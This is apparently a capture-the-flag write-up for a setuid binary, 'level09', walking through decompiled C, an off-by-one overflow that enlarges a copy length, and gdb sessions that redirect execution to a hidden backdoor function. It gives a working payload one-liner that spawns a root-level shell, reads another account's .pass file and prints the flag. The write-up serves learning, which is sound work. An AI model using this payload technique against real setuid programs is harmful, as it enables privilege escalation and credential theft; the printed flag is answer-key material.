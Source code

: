 LEVEL 09 - BUFFER OVERFLOW 3 - EXTRA BYTE

We have a binary named level09 at /home/users/level09/

It is owned by `level09` and has a `setuid bit`

The program is divided in 5 small functions: `main` `handle_msg` `set_username` `set_msg` and `secret_backdoor`

The `main` function only prints a text and calls the `handle_msg` function before returning

```c
int main(void)
{
	puts(
		"--------------------------------------------\n"
		"|   ~Welcome to l33t-m$n ~    v1337        |\n"
		"--------------------------------------------");
	handle_msg();
	return 0;
}
```

The `handle_msg` function first define some space in memory and initialise it, then calls the `set_username` and `set_msg` with the memory starting address as argument brefore printing and returning

```c
int handle_msg()
{
	char v1[140];
	int v2;
	int v3;
	int v4;
	int v5;
	int v6;
	int v7;

	v2 = 0;
	v3 = 0;
	v4 = 0;
	v5 = 0;
	v6 = 0;
	v7 = 140;
	set_username((int)v1);
	set_msg((int)v1);
	return puts(">: Msg sent!");
}
```

The `set_username` function reads 128 bytes on the standard input and copies the 41 first characters (41 bytes) into the memory at `memStart + 140`

```c
int set_username(int memStart)
{
	char username[140];
	int i;

	memset(username, 0, 128);
	puts(">: Enter your username");
	printf(">>: ");
	fgets(username, 128, stdin);
	for (i = 0; i <= 40 && username[i]; ++i)
		*(char *)(memStart + i + 140) = username[i];
	return printf(">: Welcome, %s", (const char *)(memStart + 140));
}
```

The `set_msg` function reads 1024 bytes from the standard input and copies `len` characters into the memory starting at memStart

`len` is a int located at memStart + 180

```c
char *set_msg(int memStart)
{
	char msg[1024];
	int len;

	memset(msg, 0, sizeof(msg));
	puts(">: Msg @Unix-Dude");
	printf(">>: ");
	fgets(msg, 1024, stdin);
	len = *(int *)(memStart + 180);
	return strncpy((char *)memStart, msg, len);
}
```

Finally the `secret_backdoor` function reads a 128 bytes long command inside the standard input and executes it using `system`

```c
int secret_backdoor()
{
	char command[128];

	fgets(command, 128, stdin);
	return system(command);
}
```

To better understand the memory management here let's take a look at `handle_msg` memory space:

```c
	char v1[140];
	int v2;
	int v3;
	int v4;
	int v5;
	int v6;
	int v7;

	v2 = 0;
	v3 = 0;
	v4 = 0;
	v5 = 0;
	v6 = 0;
	v7 = 140;
```

We have 140 bytes inside v1 (char size = 1 byte) and 8 bytes inside each of the 6 int (int64 size = 8 bytes) for a total of 140 + 48 = 188 bytes

The first 140 bytes are used to store the message

```c
//from set_msg
return strncpy((char *)memStart, msg, len);
```

The next 40 bytes sould be used to store the username

```c
//from set_username
for (i = 0; i <= 40 && username[i]; ++i)
	*(char *)(memStart + i + 140) = username[i];
```

And the last 8 bytes are used to store the length of the message

```c
//from main
v7 = 140;
//from set_msg
len = *(int *)(memStart + 180);
```

We can observe a small mistake inside the `set_username` function

The `for` loop copies 41 bytes instead of 40 because of the `<=` symbol which means we can overflow the `username` buffer to modify the length copied inside the `msg` buffer which can lead to another overflow

Maybe we can use this to overwrite the `handle_msg` return address to the address of the `secret_backdoor`

Let's use `gdb` to prove this flaw

First let's get the address of the `secret_backdoor` function

```
(gdb) info funct secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor
```

Now let's try to overwrite the `len`, we will input 40 'a' and a 'Z' character (dec 90, hex 5A) inside the username and look if the `strncpy` parameter was changed

```
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaZ
```

```
(gdb) disas
Dump of assembler code for function set_msg:
...
=> 0x00005555555549c6 <+148>:   callq  0x555555554720 <strncpy@plt>
```

```
(gdb) info reg
rdx            0x5a     90
```

The third parameter of `strncpy` (`rdx`) was modified successfully now we can try to overflow the `msg` buffer and overwrite the return address of `handle_msg`

```
Breakpoint 1, 0x00005555555548c4 in handle_msg ()
(gdb) disas
Dump of assembler code for function handle_msg:
...
   0x0000555555554931 <+113>:   retq

(gdb) b*0x0000555555554931
Breakpoint 2 at 0x555555554931

(gdb) r < <(python -c "print(40*'a'+'\xff'+300*'b')")

Breakpoint 5, 0x0000555555554931 in handle_msg ()
(gdb) info frame
 rip = 0x555555554931 in handle_msg; saved rip 0x6262626262626262
```

It worked now we can fuzz and find the right offset before inserting the address

In this case the offset is 286, let's try to insert the `secret_backdoor` address

```
Breakpoint 1, 0x00005555555548c4 in handle_msg ()
(gdb) disas
Dump of assembler code for function handle_msg:
...
   0x0000555555554931 <+113>:   retq

(gdb) b*0x0000555555554931
Breakpoint 2 at 0x555555554931

(gdb) r < <(python -c "print(40*'a'+'\xff'+286*'b' +'\x8c\x48\x55\x55\x55\x55\x00')")

Breakpoint 5, 0x0000555555554931 in handle_msg ()
(gdb) info frame
 rip = 0x555555554931 in handle_msg; saved rip 0x55555555488c
```

We have successfully replaced the return address, we can confirm it leads us to the `secret_backdoor` function

```
(gdb) set step-mode on
(gdb) s
0x000055555555488c in secret_backdoor ()
```

Now we can exploit that in real mode

```
level09@OverRide:~$ (python -c "print(40*'a'+'\xff'+286*'b'+'\x8c\x48\x55\x55\x55\x55\x00')"; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
/bin/sh
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

The flag is here

```
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
